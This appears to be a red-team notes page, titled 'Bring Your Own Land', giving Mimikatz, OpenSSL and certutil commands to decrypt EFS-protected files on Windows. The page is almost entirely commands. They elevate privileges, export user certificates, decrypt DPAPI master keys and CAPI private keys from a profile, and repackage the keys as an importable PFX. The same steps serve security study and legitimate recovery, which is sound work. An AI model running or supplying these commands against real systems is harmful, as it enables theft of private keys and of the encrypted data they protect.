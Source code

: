 # Bring Your Own Land

## Binaries

### Mimikatz

TODO: Briefly write the steps of what each command does

```
C:\> cipher.exe /c "D:\Users\<username>\Documents\file.txt"
```

```
mimikatz # privilege::debug

mimikatz # token::elevate

mimikatz # crypto::system /file:"D:\Users\Gentil Kiwi\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\B53C6DE283C00203587A03DD3D0BF66E16969A55" /export

mimikatz # dpapi::capi /in:"D:\Users\Gentil Kiwi\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-494464150-3436831043-1864828003-1001\79e1ac78150e8bea8ad238e14d63145b_4f8e7ec6-a506-4d31-9d5a-1e4cbed4997b"

mimikatz # dpapi::masterkey /in:"D:\Users\Gentil Kiwi\AppData\Roaming\Microsoft\Protect\S-1-5-21-494464150-3436831043-1864828003-1001\1eccdbd2-4771-4360-8b19-9d6060a061dc" /password:waza1234/

mimikatz # dpapi::capi /in:"D:\Users\Gentil Kiwi\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-494464150-3436831043-1864828003-1001\79e1ac78150e8bea8ad238e14d63145b_4f8e7ec6-a506-4d31-9d5a-1e4cbed4997b" /masterkey:f2c9ea33a990c865e985c496fb8915445895d80b
```

```
$ openssl x509 -inform DER -outform PEM -in B53C6DE283C00203587A03DD3D0BF66E16969A55.der -out public.pem

$ openssl rsa -inform PVK -outform PEM -in raw_exchange_capi_0_ffb75517-bc6c-4a40-8f8b-e2c555e30e34.pvk -out private.pem

$ openssl pkcs12 -in public.pem -inkey private.pem -password pass:mimikatz -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

```
C:\> certutil.exe -user -p <password> -importpfx cert.pfx NoChain,NoRoot
```

---
## References

### gentilkiwi

- [gentilkiwi: howto ~ decrypt EFS files](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files)

### TinyApps

- [TinyApps: Decrypt EFS-encrypted files without a cert backup](https://tinyapps.org/docs/decrypt-efs-without-cert-backup.html)